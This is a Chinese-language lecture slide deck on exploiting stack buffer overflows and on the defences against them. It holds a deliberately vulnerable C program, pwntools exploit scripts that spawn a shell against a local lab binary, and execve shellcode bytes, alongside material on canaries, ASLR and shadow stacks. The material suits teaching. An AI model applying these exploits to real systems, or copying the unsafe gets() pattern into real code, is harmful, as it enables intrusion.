

---
presentation:
  width: 1600
  height: 900
  slideNumber: 'c/t'
  showSlideNumber: "all"
  center: true
  enableSpeakerNotes: true
  theme: none.css
---

<!-- slide data-notes="" -->
# 二进制漏洞挖掘与利用
### 栈溢出

<!-- slide data-notes="" -->
## 栈溢出历史
- 1980s
    - Morris worm -- 指出
- 1996
    - Aleph One, Smashing the Stack for Fun and Profit, Phrack 49
- 1998
    - Dildog: The Tao of Windows Buffer Overflows
- 1999
    - Dark Spyrit: Jmp ESP, Phrack 55
常见的栈溢出，通过漏洞劫持程序的控制流，执行任意（和恶意）代码。
<!-- slide data-notes="" -->
## 危险代码示例

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
int pwnthis()
{
    char s[10];
    printf("%x\n",s);
    gets(s);
    return 0;
}
int main(int argc, char **argv)
{
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    pwnthis();
    return 0;
}
```
<!-- slide data-notes="" -->
## 编译

```shell
gcc -m32 -fno-stack-protector -z execstack stack_overflow.c -o stack_overflow
```
-m32是指生成32位程序
-fno-stack-protector是指关闭canary保护（后面会讲到）
-z execstack是指关闭栈不可执行保护
Stack_overflow.c是源代码
-o：指定生成的输出文件
Stack_overflow就是生成的二进制文件
<!-- slide data-notes="" -->
## 分析
编译成功后，用ida打开生成的二进制文件，定位到pwnthis（）函数，按f5生成伪代码，可以看到有：
```c
int pwnthis()
{
  char s; // [sp+6h] [bp-12h]@1

  printf("%x\n", &s);
  gets(&s);
  return 0;
}
```
其中，s的地址距ebp的长度为0x12。
<!-- slide data-notes="" -->
## 分析
转到stack窗口查看，也有：
```sh
-00000012 s               db ?
-00000011                 db ? ; undefined
-00000010                 db ? ; undefined
-0000000F                 db ? ; undefined
-0000000E                 db ? ; undefined
-0000000D                 db ? ; undefined
-0000000C                 db ? ; undefined
-0000000B                 db ? ; undefined
-0000000A                 db ? ; undefined
-00000009                 db ? ; undefined
-00000008                 db ? ; undefined
-00000007                 db ? ; undefined
-00000006                 db ? ; undefined
-00000005                 db ? ; undefined
-00000004                 db ? ; undefined
-00000003                 db ? ; undefined
-00000002                 db ? ; undefined
-00000001                 db ? ; undefined
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```
<!-- slide data-notes="" -->
## 分析

```c
$ gdb test -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from test...(no debugging symbols found)...done.
pwndbg> disass pwnthis
Dump of assembler code for function pwnthis:
   0x080484db <+0>:    push   ebp
   0x080484dc <+1>:    mov    ebp,esp
   0x080484de <+3>:    sub    esp,0x18
   0x080484e1 <+6>:    sub    esp,0x8
   0x080484e4 <+9>:    lea    eax,[ebp-0x12]
   0x080484e7 <+12>:    push   eax
   0x080484e8 <+13>:    push   0x80485f0
   0x080484ed <+18>:    call   0x80483a0 <printf@plt>
   0x080484f2 <+23>:    add    esp,0x10
   0x080484f5 <+26>:    sub    esp,0xc
   0x080484f8 <+29>:    lea    eax,[ebp-0x12]
   0x080484fb <+32>:    push   eax
   0x080484fc <+33>:    call   0x80483b0 <gets@plt>
   0x08048501 <+38>:    add    esp,0x10
   0x08048504 <+41>:    mov    eax,0x0
   0x08048509 <+46>:    leave
   0x0804850a <+47>:    ret
End of assembler dump.
pwndbg> b *0x80483b0
Breakpoint 1 at 0x80483b0
pwndbg> r
Starting program: /home/lometsj/test
ffffd136

Breakpoint 1, 0x080483b0 in gets@plt ()
pwndbg> x/20x $esp
0xffffd11c:    0x08048501    0xffffd136    0xffffd136    0x00002000
0xffffd12c:    0xf7e63ff0    0xf7fb05a0    0xf7ffd918    0x00000000
0xffffd13c:    0x08048552    0xf7fb0cc0    0x00000000    0xffffd158
0xffffd14c:    0x0804855a    0xf7fb03dc    0xffffd170    0x00000000
0xffffd15c:    0xf7e16637    0xf7fb0000    0xf7fb0000    0x00000000

```
<!-- slide data-notes="" -->
## 攻击
- 溢出点：0x12+4
- shellcode地址：s+0x12+4+4
攻击脚本：
```python
from pwn import *
#context.log_level = 'debug'
p = process("./test")
sc = asm(shellcraft.i386.sh())
temp = int(p.recvline(),16)
sc_addr = p32(temp + 0x12 + 4 + 4)
payload = 0x12 * 'a' + 'bbbb' + sc_addr + sc
p.sendline(payload)
p.interactive()
```

<!-- slide data-notes="" -->
## 攻击
- `process（）`建立脚本和二进制程序的连接
- `shellcraft.i386.sh（）`用以生成i386下的shellcode
- `asm（）`将shellcode由汇编指令转换成机器码。
- Temp接收s[]的地址
- `sendline（）`将payload输入到二进程程序中
- `interactive（）`将控制交还给用户，以便于我们操作shell。
<!-- slide data-notes="" -->
## 攻击
效果如下：

```sh
$ python p.py
[+] Starting local process './test': pid 65319
[*] Switching to interactive mode
$ echo u got it
u got it
$ exit
[*] Got EOF while reading in interactive
$
[*] Process './stack_overflow' stopped with exit code 0 (pid 65319)
[*] Got EOF while sending in interactive

```

<!-- slide data-notes="" -->
## 如何利用缓冲区溢出
- 覆盖局部变量
    -尤其是函数指针
- 覆盖错误句柄
- 覆盖存储在栈帧上的指针
- 覆盖返回地址
    - 当函数返回时改变EIP
<!-- slide data-notes="" -->
## 基础栈溢出
- 覆盖返回地址让攻击者控制程序执行流
- 与普通崩溃不同的是，这可以允许任意代码执行
    - 要执行代码称为 "shellcode"
    - 早期，攻击者利用shellcode来获取远程shell
- 例子：系统调用`execve`：用于执行一个二进制程序
    - `execve("/bin/sh")`，一种获取远程shell的常见方式。
<!-- slide data-notes="" -->
## shellcode开发
编写C语言程序及其相应汇编代码
```c
void    main()    {
char    *name[2];
}
name[0]    =    "/bin/sh";
name[1]    =    NULL;
execve(name[0],    name,    NULL);
```
```
0x80002bc    <__execve>:      pushl %ebp
0x80002bd    <__execve+1>:    movl %esp,%ebp
0x80002bf    <__execve+3>:    pushl %ebx
    The    procedure    prelude.
0x80002c0    <__execve+4>:    movl $0xb,%eax
    Copy    0xb    (11    decimal)    onto    the    stack.    This    is    the
    index    into    the    syscall table.        11    is    execve.
0x80002c5    <__execve+9>:    movl 0x8(%ebp),%ebx
    Copy    the    first    arg (address    of    "/bin/sh”) into    EBX.
0x80002c8    <__execve+12>:    movl 0xc(%ebp),%ecx
    Copy    the    second    arg (address    of    name[])    into    ECX.
0x80002cb    <__execve+15>:    movl 0x10(%ebp),%edx
Copy    the    third    arg (null    pointer)    into    %edx.

0x80002ce    <__execve+18>:    int $0x80
    Change    into    kernel    mode.
```

<!-- slide data-notes="" -->
## 如何利用缓冲区溢出
把指令和数据改为字符串形式

```python
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x46
\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\
xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\x
ff\xff\xff/bin/sh"
```
<!-- slide data-notes="" -->
## shellcode开发
编写汇编程序
```
section .text
global _start

_start:
xor eax,eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx,esp
push eax
push ebx
mov ecx,esp
xor edx,edx
mov al,0xb
int 0x80
```
编译并获取机器码
```
char shellcode[]="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
```
<!-- slide data-notes="" -->
## shellcode开发
### 面临的挑战
- 不是所有的字符都能作为shellcode
    - `gets()`:遇到换行符就停止
    - `strcpy()`:遇到`NULL`就停止
    - ...
- shellcode需要做相应的调整
    - 删除 \x00,空格，换行符...
    - 删除不能被打印的字符


<!-- slide data-notes="" -->
## 基础栈溢出

<div id="left">

- 覆盖返回地址，shellcode位与栈上
    - 问题：攻击者如何精确定位shellcode的地址
    - 解决：NOP slide
- 猜测大概的栈地址
- 在shellcode前面填充大量NOPs

</div>


<div id="right">


</div>

<!-- slide data-notes="" -->
<div id="left">

## 基础栈溢出

- 覆盖返回地址，shellcode位与栈上
    - 问题：如果buffer长度小于shellcode长度
    - 解决：RNS模式
- 把shellcode放在内存的高位上（调用者的栈帧）

</div>

<div id="right">


</div>

<!-- slide data-notes="" -->
## 防御控制流劫持

- 修复漏洞
- 保护控制数据的完整性
- 强化安全策略

<!-- slide data-notes=""-->
## 防御手段：安全的库
### 关于字符串的危险库函数：
- strcpy (char    *dest,    const char    *src)
- strcat (char    *dest,    const char    *src)
- gets (char    *s)
- scanf (    const char    *format,    ...    )
- ...
### libsafe：替换libc之类的库，提供strcpy()等危险函数的安全实现
### gcc强化源代码：用安全版本的ctrcpy_chk()代替strcpy()

<!-- slide data-notes="" -->
## 防御手段：安全的库
### 优势
- 易于部署
- 低开销
### 劣势
- 需要修改替换旧代码
- 无法消除其他类型的缓冲区溢出（危险函数只是很小一部分的漏洞）
### 绕过
- 攻击者可以寻找大量的其他漏洞
<!-- slide data-notes="" -->
## 例子：其他漏洞
- off-by-one
```
char buffer[20];
for(int i = 0;i <= 20;i++) buffer[i] = ....
```
- 受输入影响的缓冲区
```
buffer[input] = ...
```
<!-- slide data-notes="" -->
## 基础栈溢出的问题
- 依赖缓冲区/栈的地址，栈的地址会根据平台和每次运行而改变。
```c
test.c:
    printf("%x\n",s);


lometsj@ubuntu:~$ ./test
ffd92ae6
lometsj@ubuntu:~$ ./test
ffa968c6
lometsj@ubuntu:~$ ./test
ff8c2d66

```
- 如何构造一个适用于大多数平台的攻击？
<!-- slide data-notes="" -->
## jmp esp

<div id="left">

- 寻找指令"jmp esp"的地址
- 不需要知道shellcode的地址

</div>

<div id="right">


</div>

<!-- slide data-notes="" -->
## 到哪里寻找 "jmp esp"

`"jmp esp" == '\xff\xe4'`

也就是说我们需要在程序中寻找`'\xff\xe4'`

找到一个地址 `0xf7dffaa9`
```c
$ gdb test -q
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from test...(no debugging symbols found)...done.
pwndbg> b main
Breakpoint 1 at 0x8048519
pwndbg> r
Starting program: /home/lometsj/test

Breakpoint 1, 0x08048519 in main ()

─────────────────────────────────[ BACKTRACE ]──────────────────────────────────
 ► f 0  8048519 main+14
   f 1 f7e15637 __libc_start_main+247
Breakpoint main
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
 0x8048000  0x8049000 r-xp     1000 0      /home/lometsj/test
 0x8049000  0x804a000 r-xp     1000 0      /home/lometsj/test
 0x804a000  0x804b000 rwxp     1000 1000   /home/lometsj/test
0xf7dfc000 0xf7dfd000 rwxp     1000 0
0xf7dfd000 0xf7fad000 r-xp   1b0000 0      /lib/i386-linux-gnu/libc-2.23.so
0xf7fad000 0xf7faf000 r-xp     2000 1af000 /lib/i386-linux-gnu/libc-2.23.so
0xf7faf000 0xf7fb0000 rwxp     1000 1b1000 /lib/i386-linux-gnu/libc-2.23.so
0xf7fb0000 0xf7fb3000 rwxp     3000 0
0xf7fd3000 0xf7fd4000 rwxp     1000 0
0xf7fd4000 0xf7fd7000 r--p     3000 0      [vvar]
0xf7fd7000 0xf7fd9000 r-xp     2000 0      [vdso]
0xf7fd9000 0xf7ffc000 r-xp    23000 0      /lib/i386-linux-gnu/ld-2.23.so
0xf7ffc000 0xf7ffd000 r-xp     1000 22000  /lib/i386-linux-gnu/ld-2.23.so
0xf7ffd000 0xf7ffe000 rwxp     1000 23000  /lib/i386-linux-gnu/ld-2.23.so
0xfffdd000 0xffffe000 rwxp    21000 0      [stack]
pwndbg> find 0xf7dfd000,0xf7ffe000-1 ,(short)0xe4ff
0xf7dffaa9
0xf7e2a39d <__GI_abort+237>
0xf7edaa0b <__statvfs_getflags+427>
0xf7ef9f3d <__GI_rexec_af+429>
0xf7f04c7d <__GI___nss_gshadow_lookup2+93>
0xf7f550b7
0xf7f604b7
```
<!-- slide data-notes="" -->
## 修改攻击脚本
使用找到的"jmp esp"地址而不是程序中给出的栈的地址
```python
from pwn import *
#context.log_level = 'debug'
p = process("./test")
sc = asm(shellcraft.i386.sh())
temp = int(p.recvline(),16)
sc_addr = '\xa9\xfa\xdf\xf7'        #p32(temp + 0x12 + 4 + 4)
payload = 0x12 * 'a' + 'bbbb'  + sc_addr + '\x90'*10 + sc
p.sendline(payload)
p.interactive()
```
攻击成功
```python
$ python test.py
[+] Starting local process './test': pid 9999
[*] Switching to interactive mode
$ ls
flag    test
```
<!-- slide data-notes="" -->
## 防御手段2:ASLR和PIE
地址址空间配置随机化（英语：Address space layout randomization，缩写ASLR，又称位址空间配置随机化、位址空间布局随机化）
它是一种防范内存损坏漏洞被利用的计算机安全技术。位址空间配置随机载入利用随机方式配置资料定址空间，使某些敏感资料（例如作业系统内核）配置到一个恶意程式无法事先获知的位址，令攻击者难以进行攻击。
- 程序每次执行的地址和libc的地址都会随机变化
- 使用固定地址的"jmp esp"攻击失效
<!-- slide data-notes="" -->
## 应对手段
### 泄漏libc基地址
即使开启地址随机化，也不是全随机的。对于linux来说，开启ASLR，libc的基地址在每一次启动时都会变化，但是libc本身是整块存入内存的。即libc中指令相对于其基地址的偏移是不会变化的。而libc本身的指令是足够getshell的，所以要对抗ASLR，可以从泄露libc基地址下手。


<!-- slide data-notes="" -->
## 防御手段3: stack cookies
* Canary
在缓冲区和返回地址之间插入一个cookie，函数返回时会检查其是否被修改，如果与插入时的值不一致，则认为发生了缓冲区溢出。

<!-- slide data-notes="" -->
## 防御手段3: stack cookies
* 优势
    - 通过随机，攻击这很难猜测到正确的cookies
    - 易于编译器支持实现
* 劣势
    - 旧代码需要重新编译
    - 可以被绕过
* 绕过手段
    - 通过信息泄漏漏洞获取cokkie
    - 使用不会覆盖cookie的漏洞
    - 覆盖其他敏感数据而不是返回地址

<!-- slide data-notes="" -->
## 防御手段3： 影子栈-StackShield
- 把正确的返回地址保存在一个攻击者难以接触的地方
- 函数返回时把当前返回地址和保存的返回地址比较

在函数开始是保存RET，在函数返回时比较。
* 优势
    - 返回地址难以覆盖
* 劣势
    - 高性能开销
    - 保存的返回地址需要被保护
    - 兼容性问题
<!-- slide data-notes="" -->
## 影子栈：SafeStack
把危险的缓冲区放置到另一个栈上。
* 优势
    - 低性能开销
    - 保护能力较高
* 劣势
    - 需要重新编译
<!-- slide class="middle"-->

# Thanks for watching!
